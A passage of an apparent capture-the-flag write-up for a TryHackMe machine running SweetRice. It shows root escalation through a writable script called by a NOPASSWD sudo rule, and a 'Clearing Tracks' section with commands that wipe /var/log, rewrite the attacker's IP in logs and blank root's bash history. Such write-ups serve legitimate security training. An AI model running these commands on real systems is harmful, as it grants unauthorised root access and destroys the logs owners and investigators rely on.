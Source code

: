 Logged-in as the unprivileged `www-data` account, we run: `sudo -l` to see if we have any sudo privileges. We have just one:

`(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl`

When we look at that `backup.pl`, all that does is call `/etc/copy.sh`. We do NOT have privilege to modify `backup.pl`, but we DO have `RWX` for the `/etc/copy.sh` for some reason.

So, the obvious kill-chain could be:

- Modify `/etc/copy.sh` to do something we want.
- Run `sudo /usr/bin/perl /home/itguy/backup.pl`, which will run `copy.sh` as root, and execute the code we want to run, as root.

We could have `copy.sh` do all kinds of things. Since this is a simple CTF, we can afford to be destructive. However, in the future, it might be worth re-capturing this server to practice other non-destructive ways to quite privesc.

So - one **destructive** thing we could so is overwrite `copy.sh` to just spawn a bash prompt. Since we don't have a "real" terminal session over NetCat, we could just do this:

> `echo "/bin/bash" > /etc/copy.sh`

Then, run:

> `sudo /usr/bin/perl /home/itguy/backup.pl`

And we get a bash prompt as root! You can get the TryHackMe flag from `/root/`.

## More to do?

There are many other options with this box, so it is a good box if you wanted to practice your skills in a few areas. Also, in the SweetRice dashboard where we're logged in as `manager`, on the Settings page (http://10.10.223.52/content/as/?type=setting) it has the MySQL account and password. So for practice, it might be interesting to see what you can do with viewing or exfiltrating that MySQL data.

## Maintaining Access

None needed.

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`

## Summary

Completed: [2022-02-09 23:31:54]